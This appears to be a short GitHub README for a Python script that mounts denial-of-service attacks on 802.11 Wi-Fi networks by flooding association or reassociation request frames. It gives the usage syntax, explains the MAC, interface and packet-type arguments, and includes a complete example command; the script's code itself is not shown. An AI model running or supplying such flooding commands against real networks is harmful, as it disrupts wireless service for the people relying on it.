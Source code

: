 DoS attacks on 802.11 networks with flooding desired packets.

``` 
usage: test.py -src SOURCE_ADDRESS -dst DESTINATION_ADDRESS -p {assocReq} [-c COUNT] -i INTERFACE [-ssid 
SSID]. 
```

- Give mac address of the client and the AP as src and dst
- Packet type can be either "assocReq" or "reassocReq"
- -i as interface name example "wlan0mon"

common example
```
python test.py -src 00:00:00:00:00:00 -dst 00:00:00:00:00:00 -i wlan0mon -p assocReq -c 100 -ssid "aristaSSID"
```